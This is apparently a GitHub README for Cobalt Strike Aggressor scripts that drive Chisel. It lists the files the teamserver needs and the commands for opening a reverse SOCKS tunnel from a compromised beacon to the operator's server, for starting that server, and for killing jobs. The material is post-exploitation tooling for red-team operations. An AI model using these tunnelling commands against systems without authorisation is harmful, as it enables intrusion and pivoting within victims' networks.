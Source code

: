 # Cobalt_Strike_scripts
Cobalt Strike Aggressor scripts

## Chisel script
The *chisel.cna* needs these files and these files must be located on the teamserver:
- logs/
  - chisel_client_job_pids.log
  - chisel_tms_job_pids.log
- modules/
  - chisel_linux
  - chisel_win.exe
  - chisel64
  - chisel64.exe
  - chisel86
  - chisel86.exe
- tools/
  - tmskill64.bat
  - tmskill64.sh
  - tmskill86.bat
  - tmskill86.sh

You must have write permissions to the log files.

You can download last versions of chisel from https://github.com/jpillora/chisel

Change *$chisel_user*, *$chisel_pass* in the *chisel.cna*.

### Modules
🔺 **chisel**

The 'client' functionality is used on a beacon. Example:
```
chisel client <serv_IP>:<serv_port> R:<socks_IP>:<socks_port>:socks
```

🔺 **chisel-jobs**

List active chisel jobs on the teamserver and beacon. Just run:
```
chisel-jobs
```

🔺 **chisel-kill**

Kill chisel jobs on a beacon. Use 'ALL' to kill all jobs or PID to kill only one job with typed PID. Example:
```
chisel-kill ALL
chisel-kill 3453
```

🔺 **chisel-tms**

Run Chisel on your teamserver. Example:
```
chisel-tms server --auth user:pass -p <serv_port> --socks5 --reverse
```

🔺 **chisel-tms-kill**

Kill all chisel jobs on the teamserver. Just run:
```
chisel-tms-kill
```

### Screenshots
![Chisel](/screens/ch_client.png)
![Chisel tms](/screens/ch_tms.png)
